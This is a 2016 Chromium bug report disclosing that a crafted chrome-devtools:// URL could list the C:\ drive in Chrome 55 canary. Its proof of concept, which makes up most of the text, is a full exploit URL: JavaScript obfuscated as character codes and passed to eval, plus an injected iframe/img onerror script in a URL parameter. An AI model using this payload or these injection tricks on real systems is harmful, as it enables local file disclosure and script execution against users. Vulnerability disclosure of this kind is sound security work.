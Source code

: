 # Security: chrome-devtools protocol allows to read the content of C:\ drive

> Reported by chromium...@gmail.com, Oct 5 2016

## VERSION

Chrome Version: 55.0.2880.4 canary (64-bit)
Operating System: Windows 7

## REPRODUCTION CASE

1. Navigate to the link below.
2. As you can see the page displays the content of C:\ drive.

PoC: chrome-devtools://devtools/remote/serve_rev/@199588/devtools.html?eval(String.fromCharCode(102,117,110,99,116,105,111,110,32,102,40,41,32,123,10,99,61,39,100,61,34,34,44,68,101,118,84,111,111,108,115,65,80,73,46,115,116,114,101,97,109,87,114,105,116,101,61,102,117,110,99,116,105,111,110,40,101,44,111,41,123,100,43,61,111,125,44,68,101,118,84,111,111,108,115,65,80,73,46,115,101,110,100,77,101,115,115,97,103,101,84,111,69,109,98,101,100,100,101,114,40,34,108,111,97,100,78,101,116,119,111,114,107,82,101,115,111,117,114,99,101,34,44,91,34,102,105,108,101,58,47,47,47,67,58,47,34,44,34,34,44,48,93,44,102,117,110,99,116,105,111,110,40,101,41,123,100,46,115,112,108,105,116,40,34,92,92,110,34,41,46,109,97,112,40,102,117,110,99,116,105,111,110,40,101,41,123,101,46,109,97,116,99,104,40,47,97,100,100,82,111,119,46,42,59,47,41,38,38,100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,101,46,109,97,116,99,104,40,47,97,100,100,82,111,119,46,42,59,47,41,91,48,93,41,59,125,41,125,41,59,39,32,59,10,100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,34,60,115,99,114,105,112,116,62,119,105,110,100,111,119,46,100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,62,39,43,99,43,39,60,47,115,99,114,39,43,39,105,112,116,62,39,41,59,60,47,115,99,114,34,43,34,105,112,116,62,34,41,59,10,125,10,105,102,40,32,116,121,112,101,111,102,32,68,101,118,84,111,111,108,115,72,111,115,116,32,61,61,32,34,117,110,100,101,102,105,110,101,100,34,32,41,32,10,108,111,99,97,116,105,111,110,46,114,101,108,111,97,100,40,41,59,10,101,108,115,101,10,102,40,41,59)):0);a=0;&remoteFrontendUrl=https://chrome-devtools-frontend.appspot.com/%27%3E%3C/iframe%3E%3Cimg%20src=x%20onerror=%27javascript:eval(1

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=653134
